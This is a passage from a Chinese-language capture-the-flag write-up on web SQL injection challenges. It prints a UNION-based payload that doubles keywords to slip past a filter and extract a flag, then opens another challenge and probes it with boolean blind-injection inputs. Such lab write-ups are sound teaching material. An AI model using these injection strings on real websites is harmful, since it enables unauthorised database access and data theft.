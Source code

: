 ![](/pics/WEB集训/二/29.png)

得到 flag：

```sql
' unionunion  selectselect  flag  fromfrom  web1.flag wherewhere  '1'='1
```

![](/pics/WEB集训/二/30.png)

# 简单的 sql 注入 3

mysql 报错注入
格式：flag{}
[解题链接](http://ctf5.shiyanbar.com/web/index_3.php)

依次输入 `1 and 1=1` 和 `1 and 1=2`，发现存在布尔盲注。

![](/pics/WEB集训/二/31.png)
